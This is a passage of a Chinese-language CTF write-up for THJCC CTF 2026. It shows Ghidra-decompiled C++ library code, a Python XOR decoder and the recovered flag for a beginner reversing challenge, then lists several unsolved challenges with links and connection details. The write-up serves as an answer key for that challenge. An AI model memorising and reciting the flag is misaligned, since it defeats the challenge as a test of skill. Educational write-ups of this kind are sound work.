std::__cxx11::string::string(string *this,char *param_1,ulong param_2,allocator *param_3)

{
  char *pcVar1;
  
  pcVar1 = (char *)_M_local_data(this);
  _Alloc_hider::_Alloc_hider((_Alloc_hider *)this,pcVar1,param_3);
  if ((param_1 == (char *)0x0) && (param_2 != 0)) {
                    // try { // try from 001027da to 001027fc has its CatchHandler @ 001027ff
    std::__throw_logic_error("basic_string: construction from null is not valid");
  }
  _M_construct<char_const*>(this,param_1,param_1 + param_2);
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked
// unsigned long const& std::max<unsigned long>(unsigned long const&, unsigned long const&)

ulong * std::max<unsigned_long>(ulong *param_1,ulong *param_2)

{
  if (*param_1 < *param_2) {
    param_1 = param_2;
  }
  return param_1;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char> >::_Vector_impl::_Vector_impl()

void __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_Vector_impl::_Vector_impl
          (_Vector_impl *this)

{
  _Vector_impl_data::_Vector_impl_data((_Vector_impl_data *)this);
  return;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char> >::~_Vector_base()

void __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::~_Vector_base
          (_Vector_base<unsigned_char,std::allocator<unsigned_char>> *this)

{
  _M_deallocate(this,*(uchar **)this,*(long *)(this + 0x10) - *(long *)this);
  _Vector_impl::~_Vector_impl((_Vector_impl *)this);
  return;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::~vector()

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::~vector
          (vector<unsigned_char,std::allocator<unsigned_char>> *this)

{
  _Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_get_Tp_allocator
            ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this);
  _Destroy<unsigned_char*>(*(uchar **)this,*(uchar **)(this + 8));
  _Vector_base<unsigned_char,std::allocator<unsigned_char>>::~_Vector_base
            ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this);
  return;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::reserve(unsigned long)

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::reserve
          (vector<unsigned_char,std::allocator<unsigned_char>> *this,ulong param_1)

{
  ulong uVar1;
  long lVar2;
  uchar *puVar3;
  allocator *paVar4;
  
  uVar1 = max_size(this);
  if (uVar1 < param_1) {
    std::__throw_length_error("vector::reserve");
  }
  uVar1 = capacity(this);
  if (uVar1 < param_1) {
    lVar2 = size(this);
    puVar3 = (uchar *)_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_allocate
                                ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this,
                                 param_1);
    paVar4 = (allocator *)
             _Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_get_Tp_allocator
                       ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this);
    _S_relocate(*(uchar **)this,*(uchar **)(this + 8),puVar3,paVar4);
    _Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_deallocate
              ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this,*(uchar **)this,
               *(long *)(this + 0x10) - *(long *)this);
    *(uchar **)this = puVar3;
    *(uchar **)(this + 8) = puVar3 + lVar2;
    *(ulong *)(this + 0x10) = *(long *)this + param_1;
  }
  return;
}


// WARNING: Removing unreachable block (ram,0x00102aab)
// std::vector<unsigned char, std::allocator<unsigned char> >::push_back(unsigned char const&)

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::push_back
          (vector<unsigned_char,std::allocator<unsigned_char>> *this,uchar *param_1)

{
  uchar *puVar1;
  
  if (*(long *)(this + 8) == *(long *)(this + 0x10)) {
    _M_realloc_append<unsigned_char_const&>(this,param_1);
  }
  else {
    puVar1 = operator_new(1,*(void **)(this + 8));
    *puVar1 = *param_1;
    *(long *)(this + 8) = *(long *)(this + 8) + 1;
  }
  return;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::data()

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::data
          (vector<unsigned_char,std::allocator<unsigned_char>> *this)

{
  _M_data_ptr<unsigned_char>(this,*(uchar **)this);
  return;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::size() const

long __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::size
          (vector<unsigned_char,std::allocator<unsigned_char>> *this)

{
  return *(long *)(this + 8) - *(long *)this;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked
// bool std::TEMPNAMEPLACEHOLDERVALUE(std::__cxx11::string const&, std::__cxx11::string const&)

bool std::operator==(string *param_1,string *param_2)

{
  int iVar1;
  long lVar2;
  long lVar3;
  ulong uVar4;
  char *pcVar5;
  char *pcVar6;
  
  lVar2 = __cxx11::string::size(param_1);
  lVar3 = __cxx11::string::size(param_2);
  if (lVar2 == lVar3) {
    uVar4 = __cxx11::string::size(param_1);
    pcVar5 = (char *)__cxx11::string::data(param_2);
    pcVar6 = (char *)__cxx11::string::data(param_1);
    iVar1 = char_traits<char>::compare(pcVar6,pcVar5,uVar4);
    if (iVar1 == 0) {
      return true;
    }
  }
  return false;
}


// std::__cxx11::string::_M_data() const

undefined8 __thiscall std::__cxx11::string::_M_data(string *this)

{
  return *(undefined8 *)this;
}


// std::__cxx11::string::_M_local_data()

void __thiscall std::__cxx11::string::_M_local_data(string *this)

{
  __ptr_traits_ptr_to<char*,char,false>::pointer_to((char *)(this + 0x10));
  return;
}


// std::__cxx11::string::_Alloc_hider::_Alloc_hider(char*, std::allocator<char>&&)

void __thiscall
std::__cxx11::string::_Alloc_hider::_Alloc_hider
          (_Alloc_hider *this,char *param_1,allocator *param_2)

{
  *(char **)this = param_1;
  return;
}


// std::__cxx11::string::_M_set_length(unsigned long)

void __thiscall std::__cxx11::string::_M_set_length(string *this,ulong param_1)

{
  long lVar1;
  long in_FS_OFFSET;
  char local_11;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  _M_length(this,param_1);
  local_11 = '\0';
  lVar1 = _M_data(this);
  char_traits<char>::assign((char *)(param_1 + lVar1),&local_11);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}


// std::__cxx11::string::_M_dispose()

void __thiscall std::__cxx11::string::_M_dispose(string *this)

{
  char cVar1;
  
  cVar1 = _M_is_local(this);
  if (cVar1 != '\x01') {
    _M_destroy(this,*(ulong *)(this + 0x10));
  }
  return;
}


// std::__cxx11::string::_M_get_allocator()

string * __thiscall std::__cxx11::string::_M_get_allocator(string *this)

{
  return this;
}


// std::__cxx11::string::_M_is_local() const

bool __thiscall std::__cxx11::string::_M_is_local(string *this)

{
  long lVar1;
  long lVar2;
  
  lVar1 = _M_data(this);
  lVar2 = _M_local_data(this);
  return lVar1 == lVar2;
}


// std::__cxx11::string::_M_data(char*)

void __thiscall std::__cxx11::string::_M_data(string *this,char *param_1)

{
  *(char **)this = param_1;
  return;
}


// std::__cxx11::string::_M_capacity(unsigned long)

void __thiscall std::__cxx11::string::_M_capacity(string *this,ulong param_1)

{
  *(ulong *)(this + 0x10) = param_1;
  return;
}


// std::__cxx11::string::_M_length(unsigned long)

void __thiscall std::__cxx11::string::_M_length(string *this,ulong param_1)

{
  *(ulong *)(this + 8) = param_1;
  return;
}


// std::__cxx11::string::data() const

void __thiscall std::__cxx11::string::data(string *this)

{
  _M_data(this);
  return;
}


// std::__cxx11::string::size() const

undefined8 __thiscall std::__cxx11::string::size(string *this)

{
  undefined8 uVar1;
  
  uVar1 = *(undefined8 *)(this + 8);
  max_size(this);
  return uVar1;
}


// std::__new_allocator<char>::~__new_allocator()

void __thiscall std::__new_allocator<char>::~__new_allocator(__new_allocator<char> *this)

{
  return;
}


// std::__cxx11::string::_Alloc_hider::_Alloc_hider(char*, std::allocator<char> const&)

void __thiscall
std::__cxx11::string::_Alloc_hider::_Alloc_hider
          (_Alloc_hider *this,char *param_1,allocator *param_2)

{
  *(char **)this = param_1;
  return;
}


// std::__cxx11::string::_M_construct<char const*>(char const*, char const*,
// std::forward_iterator_tag)::_Guard::_Guard(std::__cxx11::string*)

void std::__cxx11::string::_M_construct<char_const*>(char_const*,char_const*,std::
     forward_iterator_tag)::_Guard::_Guard(std::__cxx11::string__
               (undefined8 *param_1,undefined8 param_2)

{
  *param_1 = param_2;
  return;
}


// ~_Guard()

void __thiscall
std::__cxx11::string::_M_construct<char_const*>(char_const*,char_const*,std::forward_iterator_tag)::
_Guard::~_Guard(_Guard *this)

{
  if (*(long *)this != 0) {
    _M_dispose(*(string **)this);
  }
  return;
}


// void std::__cxx11::string::_M_construct<char const*>(char const*, char const*,
// std::forward_iterator_tag)

void std::__cxx11::string::_M_construct<char_const*>(string *param_1,char *param_2,char *param_3)

{
  string *psVar1;
  char *pcVar2;
  long in_FS_OFFSET;
  ulong local_40;
  char *local_38;
  char *local_30;
  char *local_28;
  char *local_20;
  string *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_40 = (long)param_3 - (long)param_2;
  local_38 = param_2;
  local_30 = param_3;
  local_28 = param_2;
  local_20 = param_3;
  psVar1 = param_1;
  if (0xf < local_40) {
    pcVar2 = (char *)_M_create(param_1,&local_40,0);
    _M_data(param_1,pcVar2);
    _M_capacity(param_1,local_40);
    psVar1 = local_18;
  }
  local_18 = psVar1;
  _M_construct<char_const*>(char_const*,char_const*,std::forward_iterator_tag)::_Guard::_Guard(std::
  __cxx11::string__(&local_38,param_1);
  pcVar2 = (char *)_M_data(param_1);
  _S_copy_chars<char_const*>(pcVar2,param_2,param_3);
  local_38 = (char *)0x0;
  _M_set_length(param_1,local_40);
  _M_construct<char_const*>(char_const*,char_const*,std::forward_iterator_tag)::_Guard::~_Guard
            ((_Guard *)&local_38);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    // WARNING: Subroutine does not return
  __stack_chk_fail();
}


// std::__cxx11::string::_M_get_allocator() const

string * __thiscall std::__cxx11::string::_M_get_allocator(string *this)

{
  return this;
}


// std::__cxx11::string::_M_destroy(unsigned long)

void __thiscall std::__cxx11::string::_M_destroy(string *this,ulong param_1)

{
  char *pcVar1;
  __new_allocator<char> *this_00;
  
  pcVar1 = (char *)_M_data(this);
  this_00 = (__new_allocator<char> *)_M_get_allocator(this);
  __new_allocator<char>::deallocate(this_00,pcVar1,param_1 + 1);
  return;
}


// std::__cxx11::string::_S_copy(char*, char const*, unsigned long)

void std::__cxx11::string::_S_copy(char *param_1,char *param_2,ulong param_3)

{
  if (param_3 == 1) {
    char_traits<char>::assign(param_1,param_2);
  }
  else {
    char_traits<char>::copy(param_1,param_2,param_3);
  }
  return;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char>
// >::_Vector_impl_data::_Vector_impl_data()

void __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_Vector_impl_data::_Vector_impl_data
          (_Vector_impl_data *this)

{
  *(undefined8 *)this = 0;
  *(undefined8 *)(this + 8) = 0;
  *(undefined8 *)(this + 0x10) = 0;
  return;
}


// std::__new_allocator<unsigned char>::~__new_allocator()

void __thiscall
std::__new_allocator<unsigned_char>::~__new_allocator(__new_allocator<unsigned_char> *this)

{
  return;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char> >::_M_deallocate(unsigned char*,
// unsigned long)

void __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_deallocate
          (_Vector_base<unsigned_char,std::allocator<unsigned_char>> *this,uchar *param_1,
          ulong param_2)

{
  if (param_1 != (uchar *)0x0) {
    __new_allocator<unsigned_char>::deallocate
              ((__new_allocator<unsigned_char> *)this,param_1,param_2);
  }
  return;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char> >::_M_get_Tp_allocator()

_Vector_base<unsigned_char,std::allocator<unsigned_char>> * __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_get_Tp_allocator
          (_Vector_base<unsigned_char,std::allocator<unsigned_char>> *this)

{
  return this;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::max_size() const

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::max_size
          (vector<unsigned_char,std::allocator<unsigned_char>> *this)

{
  allocator *paVar1;
  
  paVar1 = (allocator *)
           _Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_get_Tp_allocator
                     ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this);
  _S_max_size(paVar1);
  return;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::capacity() const

long __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::capacity
          (vector<unsigned_char,std::allocator<unsigned_char>> *this)

{
  return *(long *)(this + 0x10) - *(long *)this;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char> >::_M_allocate(unsigned long)

undefined8 __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_allocate
          (_Vector_base<unsigned_char,std::allocator<unsigned_char>> *this,ulong param_1)

{
  undefined8 uVar1;
  
  if (param_1 == 0) {
    uVar1 = 0;
  }
  else {
    uVar1 = __new_allocator<unsigned_char>::allocate((ulong)this,(void *)param_1);
  }
  return uVar1;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::_S_relocate(unsigned char*, unsigned
// char*, unsigned char*, std::allocator<unsigned char>&)

void std::vector<unsigned_char,std::allocator<unsigned_char>>::_S_relocate
               (uchar *param_1,uchar *param_2,uchar *param_3,allocator *param_4)

{
  __relocate_a<unsigned_char*,unsigned_char*,std::allocator<unsigned_char>>
            (param_1,param_2,param_3,param_4);
  return;
}


// WARNING: Removing unreachable block (ram,0x00103345)
// WARNING: Restarted to delay deadcode elimination for space: stack
// void std::vector<unsigned char, std::allocator<unsigned char> >::_M_realloc_append<unsigned char
// const&>(unsigned char const&)

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::_M_realloc_append<unsigned_char_const&>
          (vector<unsigned_char,std::allocator<unsigned_char>> *this,uchar *param_1)

{
  uchar *puVar1;
  allocator *paVar2;
  long lVar3;
  long in_FS_OFFSET;
  long local_d0;
  ulong local_c8;
  uchar *local_c0;
  uchar *local_b8;
  long local_b0;
  uchar *local_a8;
  uchar *local_a0;
  vector<unsigned_char,std::allocator<unsigned_char>> *local_98;
  uchar *local_90;
  uchar *local_88;
  uchar *local_80;
  uchar *local_78;
  uchar *local_70;
  vector<unsigned_char,std::allocator<unsigned_char>> *local_68;
  uchar *local_60;
  uchar *local_58;
  uchar *local_50;
  long *local_48;
  uchar **local_40;
  uchar *local_38;
  long local_30;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_c8 = _M_check_len(this,1,"vector::_M_realloc_append");
  local_c0 = *(uchar **)this;
  local_b8 = *(uchar **)(this + 8);
  local_38 = (uchar *)begin(this);
  local_d0 = end(this);
  local_48 = &local_d0;
  local_40 = &local_38;
  local_b0 = local_d0 - (long)local_38;
  local_a8 = (uchar *)_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_allocate
                                ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this,
                                 local_c8);
  local_a0 = local_a8;
  _Guard_alloc::_Guard_alloc((_Guard_alloc *)&local_38,local_a8,local_c8,(_Vector_base *)this);
  local_90 = local_a8 + local_b0;
  local_98 = this;
  local_88 = param_1;
  local_80 = param_1;
  local_78 = local_90;
  local_70 = param_1;
  local_68 = this;
  local_58 = local_90;
  local_50 = param_1;
  puVar1 = operator_new(1,local_90);
  local_60 = local_70;
  *puVar1 = *local_70;
  paVar2 = (allocator *)
           _Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_get_Tp_allocator
                     ((_Vector_base<unsigned_char,std::allocator<unsigned_char>> *)this);
  lVar3 = _S_relocate(local_c0,local_b8,local_a8,paVar2);
  local_a0 = (uchar *)(lVar3 + 1);
  local_38 = local_c0;
  local_30 = *(long *)(this + 0x10) - (long)local_c0;
  _Guard_alloc::~_Guard_alloc((_Guard_alloc *)&local_38);
  *(uchar **)this = local_a8;
  *(uchar **)(this + 8) = local_a0;
  *(uchar **)(this + 0x10) = local_a8 + local_c8;
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    // WARNING: Subroutine does not return
  __stack_chk_fail();
}


// unsigned char* std::vector<unsigned char, std::allocator<unsigned char> >::_M_data_ptr<unsigned
// char>(unsigned char*) const

uchar * __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::_M_data_ptr<unsigned_char>
          (vector<unsigned_char,std::allocator<unsigned_char>> *this,uchar *param_1)

{
  return param_1;
}


// std::__ptr_traits_ptr_to<char*, char, false>::pointer_to(char&)

char * std::__ptr_traits_ptr_to<char*,char,false>::pointer_to(char *param_1)

{
  return param_1;
}


// std::__cxx11::string::_M_create(unsigned long&, unsigned long)

void __thiscall std::__cxx11::string::_M_create(string *this,ulong *param_1,ulong param_2)

{
  ulong uVar1;
  ulong uVar2;
  allocator *paVar3;
  
  uVar2 = *param_1;
  uVar1 = max_size(this);
  if (uVar1 < uVar2) {
    std::__throw_length_error("basic_string::_M_create");
  }
  if ((param_2 < *param_1) && (*param_1 < param_2 * 2)) {
    *param_1 = param_2 * 2;
    uVar2 = *param_1;
    uVar1 = max_size(this);
    if (uVar1 < uVar2) {
      uVar2 = max_size(this);
      *param_1 = uVar2;
    }
  }
  uVar2 = *param_1;
  paVar3 = (allocator *)_M_get_allocator(this);
  _S_allocate(paVar3,uVar2 + 1);
  return;
}


// std::__cxx11::string::_M_local_data() const

void __thiscall std::__cxx11::string::_M_local_data(string *this)

{
  __ptr_traits_ptr_to<char_const*,char_const,false>::pointer_to((char *)(this + 0x10));
  return;
}


// std::__cxx11::string::max_size() const

long __thiscall std::__cxx11::string::max_size(string *this)

{
  ulong *puVar1;
  long in_FS_OFFSET;
  ulong local_38 [3];
  undefined8 local_20;
  undefined8 local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38[0] = 0x7fffffffffffffff;
  local_38[2] = _M_get_allocator(this);
  local_38[1] = 0x7fffffffffffffff;
  local_20 = local_38[2];
  local_18 = local_38[2];
  puVar1 = min<unsigned_long>(local_38,local_38 + 1);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return *puVar1 - 1;
}


// void std::__cxx11::string::_S_copy_chars<char const*>(char*, char const*, char const*)

void std::__cxx11::string::_S_copy_chars<char_const*>(char *param_1,char *param_2,char *param_3)

{
  _S_copy(param_1,param_2,(long)param_3 - (long)param_2);
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked
// void std::_Destroy<unsigned char*>(unsigned char*, unsigned char*)

void std::_Destroy<unsigned_char*>(uchar *param_1,uchar *param_2)

{
  return;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::_S_max_size(std::allocator<unsigned
// char> const&)

ulong std::vector<unsigned_char,std::allocator<unsigned_char>>::_S_max_size(allocator *param_1)

{
  ulong *puVar1;
  long in_FS_OFFSET;
  ulong local_38 [2];
  allocator *local_28;
  allocator *local_20;
  allocator *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38[0] = 0x7fffffffffffffff;
  local_38[1] = 0x7fffffffffffffff;
  local_28 = param_1;
  local_20 = param_1;
  local_18 = param_1;
  puVar1 = min<unsigned_long>(local_38,local_38 + 1);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return *puVar1;
}


// std::_Vector_base<unsigned char, std::allocator<unsigned char> >::_M_get_Tp_allocator() const

_Vector_base<unsigned_char,std::allocator<unsigned_char>> * __thiscall
std::_Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_get_Tp_allocator
          (_Vector_base<unsigned_char,std::allocator<unsigned_char>> *this)

{
  return this;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked
// unsigned char* std::__relocate_a<unsigned char*, unsigned char*, std::allocator<unsigned char>
// >(unsigned char*, unsigned char*, unsigned char*, std::allocator<unsigned char>&)

uchar * std::__relocate_a<unsigned_char*,unsigned_char*,std::allocator<unsigned_char>>
                  (uchar *param_1,uchar *param_2,uchar *param_3,allocator *param_4)

{
  uchar *puVar1;
  
  puVar1 = (uchar *)__relocate_a_1<unsigned_char,unsigned_char>(param_1,param_2,param_3,param_4);
  return puVar1;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::_M_check_len(unsigned long, char
// const*) const

ulong __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::_M_check_len
          (vector<unsigned_char,std::allocator<unsigned_char>> *this,ulong param_1,char *param_2)

{
  long lVar1;
  long lVar2;
  ulong *puVar3;
  ulong uVar4;
  ulong uVar5;
  long in_FS_OFFSET;
  ulong local_48;
  vector<unsigned_char,std::allocator<unsigned_char>> *local_40;
  ulong local_30;
  ulong local_28;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = param_1;
  local_40 = this;
  lVar1 = max_size(this);
  lVar2 = size(local_40);
  if ((ulong)(lVar1 - lVar2) < local_48) {
    if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
      __stack_chk_fail();
    }
    std::__throw_length_error(param_2);
  }
  lVar1 = size(local_40);
  local_30 = size(local_40);
  puVar3 = max<unsigned_long>(&local_30,&local_48);
  local_28 = *puVar3 + lVar1;
  uVar4 = size(local_40);
  if ((local_28 < uVar4) || (uVar5 = max_size(local_40), uVar4 = local_28, uVar5 < local_28)) {
    uVar4 = max_size(local_40);
  }
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar4;
  }
                    // WARNING: Subroutine does not return
  __stack_chk_fail();
}


// std::vector<unsigned char, std::allocator<unsigned char> >::end()

undefined8 __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::end
          (vector<unsigned_char,std::allocator<unsigned_char>> *this)

{
  long in_FS_OFFSET;
  
  if (*(long *)(in_FS_OFFSET + 0x28) != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return *(undefined8 *)(this + 8);
}


// std::vector<unsigned char, std::allocator<unsigned char> >::begin()

undefined8 __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::begin
          (vector<unsigned_char,std::allocator<unsigned_char>> *this)

{
  long in_FS_OFFSET;
  
  if (*(long *)(in_FS_OFFSET + 0x28) != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return *(undefined8 *)this;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::_Guard_alloc::_Guard_alloc(unsigned
// char*, unsigned long, std::_Vector_base<unsigned char, std::allocator<unsigned char> >&)

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::_Guard_alloc::_Guard_alloc
          (_Guard_alloc *this,uchar *param_1,ulong param_2,_Vector_base *param_3)

{
  *(uchar **)this = param_1;
  *(ulong *)(this + 8) = param_2;
  *(_Vector_base **)(this + 0x10) = param_3;
  return;
}


// std::vector<unsigned char, std::allocator<unsigned char> >::_Guard_alloc::~_Guard_alloc()

void __thiscall
std::vector<unsigned_char,std::allocator<unsigned_char>>::_Guard_alloc::~_Guard_alloc
          (_Guard_alloc *this)

{
  if (*(long *)this != 0) {
    _Vector_base<unsigned_char,std::allocator<unsigned_char>>::_M_deallocate
              (*(_Vector_base<unsigned_char,std::allocator<unsigned_char>> **)(this + 0x10),
               *(uchar **)this,*(ulong *)(this + 8));
  }
  return;
}


// std::__cxx11::string::_S_allocate(std::allocator<char>&, unsigned long)

undefined8 std::__cxx11::string::_S_allocate(allocator *param_1,ulong param_2)

{
  undefined8 uVar1;
  
  uVar1 = __new_allocator<char>::allocate((ulong)param_1,(void *)param_2);
  return uVar1;
}


// std::__ptr_traits_ptr_to<char const*, char const, false>::pointer_to(char const&)

char * std::__ptr_traits_ptr_to<char_const*,char_const,false>::pointer_to(char *param_1)

{
  return param_1;
}


// std::__new_allocator<char>::deallocate(char*, unsigned long)

void __thiscall
std::__new_allocator<char>::deallocate(__new_allocator<char> *this,char *param_1,ulong param_2)

{
  operator_delete(param_1,param_2);
  return;
}


// std::__new_allocator<unsigned char>::deallocate(unsigned char*, unsigned long)

void __thiscall
std::__new_allocator<unsigned_char>::deallocate
          (__new_allocator<unsigned_char> *this,uchar *param_1,ulong param_2)

{
  operator_delete(param_1,param_2);
  return;
}


// std::__new_allocator<unsigned char>::allocate(unsigned long, void const*)

void std::__new_allocator<unsigned_char>::allocate(ulong param_1,void *param_2)

{
  if ((void *)0x7fffffffffffffff < param_2) {
    std::__throw_bad_alloc();
  }
  operator_new((ulong)param_2);
  return;
}


// WARNING: Unknown calling convention -- yet parameter storage is locked
// std::enable_if<std::__is_bitwise_relocatable<unsigned char, void>::value, unsigned char*>::type
// std::__relocate_a_1<unsigned char, unsigned char>(unsigned char*, unsigned char*, unsigned char*,
// std::allocator<unsigned char>&)

uchar * std::__relocate_a_1<unsigned_char,unsigned_char>
                  (uchar *param_1,uchar *param_2,uchar *param_3,allocator *param_4)

{
  size_t __n;
  
  __n = (long)param_2 - (long)param_1;
  if (0 < (long)__n) {
    memcpy(param_3,param_1,__n);
  }
  return param_3 + __n;
}


// std::__new_allocator<char>::allocate(unsigned long, void const*)

void std::__new_allocator<char>::allocate(ulong param_1,void *param_2)

{
  if ((void *)0x7fffffffffffffff < param_2) {
    std::__throw_bad_alloc();
  }
  operator_new((ulong)param_2);
  return;
}


void _fini(void)

{
  return;
}
```
好了！你看到這裡會發現這裡有幾個酷東西在233-292行，有沒有覺得很眼熟呢？他是十六進制Hex值，所以我們先轉成ASCII來看看：
```txt
00 20 7b 30 1c 4a 32 00 27 01 5e 2f 07 00 26 06 
5b 47 40 2d 02 2c 2a 07 01 5d 38 34 70 29 04 37 
55 43 36 5f 14 00 2c 58 61 22
=> · {0·J2·'·^/··&·[G@-·,*··]84p)·7UC6_··,Xa"

54 68 31 73 5f 31 73 5f 74 68 33 5f 6b 33 79
=> Th1s_1s_th3_k3y
```
我們發現前面那組的Hex轉ASCII是一個亂碼，然後後面那組是`Th1s_1s_th3_k3y`（This is the key），這時我們就想到在 C 語言中處理這種加密字串時，通常會用一個迴圈掃描密文，並利用取餘數 (%) 的方式重複使用密鑰。因為陣列是同一個，所以它的運算公式非常可能是：
```Flag字元 = local_67[i] ^ 密鑰[i % 15]```
> [!NOTE]
> i 是從 16 開始的陣列索引，^ 在程式中代表 XOR 運算

所以我們可以寫一個Python 來幫助我們算出正確的Flag：
```py title="decode.py"
key = b"Th1s_1s_th3_k3y"

secret = [
    0x00, 0x20, 0x7b, 0x30, 0x1c, 0x4a, 0x32, 0x00, 0x27, 0x01, 0x5e, 
    0x2f, 0x07, 0x00, 0x26, 0x06, 0x5b, 0x47, 0x40, 0x2d, 0x02, 0x2c, 
    0x2a, 0x07, 0x01, 0x5d, 0x38, 0x34, 0x70, 0x29, 0x04, 0x37, 0x55, 
    0x43, 0x36, 0x5f, 0x14, 0x00, 0x2c, 0x58, 0x61, 0x22
]

flag = ""
for i in range(len(secret)):
    ans_text = chr(secret[i] ^ key[i % len(key)])
    flag += ans_text

print(flag)
```
執行結果：
```bash
pg72@PGpenguin72:~/Downloads$ python3 decode.py
THJCC{A_Simpl3_R3v3r3_using_CPP_d0ing_X0R}
```
我們找到了Flag，直接送出就完成這題了！

#### Flag:
```THJCC{A_Simpl3_R3v3r3_using_CPP_d0ing_X0R}```

### [-THJCC-anti-virus](https://ctf2026.thjcc.org/challenges#THJCC-anti-virus-26) (100)

#### 題目：
I make an simple Anti-Virus but my friend say there is something wrong inside can you help me to find out?
> Author: LemonTea >w<

:::Tip[Download Flie]
[anti-virus](https://file.pg72.tw/share/gvQqcosi)
:::

:::Tip[Connection]
nc chal.thjcc.org 1145
:::

#### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

#### Flag:
```THJCC{}```

### [-PocketVM](https://ctf2026.thjcc.org/challenges#PocketVM-64) (100)

#### 題目：
Can you unpack the hidden Tiny VM bytecode and reverse its logic to recover the correct key?
> Author: Auron

:::Tip[Download Flie]
[chall](https://file.pg72.tw/share/pXK3yIVq)
:::

#### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

#### Flag:
```THJCC{}```

### [-幽々子の食べ物](https://ctf2026.thjcc.org/challenges#%E5%B9%BD%E3%80%85%E5%AD%90%E3%81%AE%E9%A3%9F%E3%81%B9%E7%89%A9-32) (371)

#### 題目：
My fumo wants to eat KFC and jump into a bucket full of fried chicken, but we don’t have KFC, so I decide to do something special for it.
> Author: LemonTea & jackoha ᗜˬᗜ

:::Tip[Download Flie]
[challenge.zip](https://file.pg72.tw/share/9qSUDAOR)
:::

#### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

#### Flag:
```THJCC{}```

### [-Baby Malware](https://ctf2026.thjcc.org/challenges#Baby%20Malware-71) (500)

#### 題目：
This is a baby malware, at least, it "WAS".
find the old C2.
https://drive.google.com/file/d/1fspSO8Ynznr4xCd-iTGwoQvk-L7YQtSn/view?usp=sharing
> Author: whale120

#### 解題心得：
好吧這題其實沒有解出來，還在學習中，等學好了再放上來！

#### Flag:
```THJCC{}```

## Misc

### [IMAGE?](https://ctf2026.thjcc.org/challenges#IMAGE?-5) (100)

#### 題目：
Check the hex of this image

> Author: Frank

:::Tip[Download Flie]
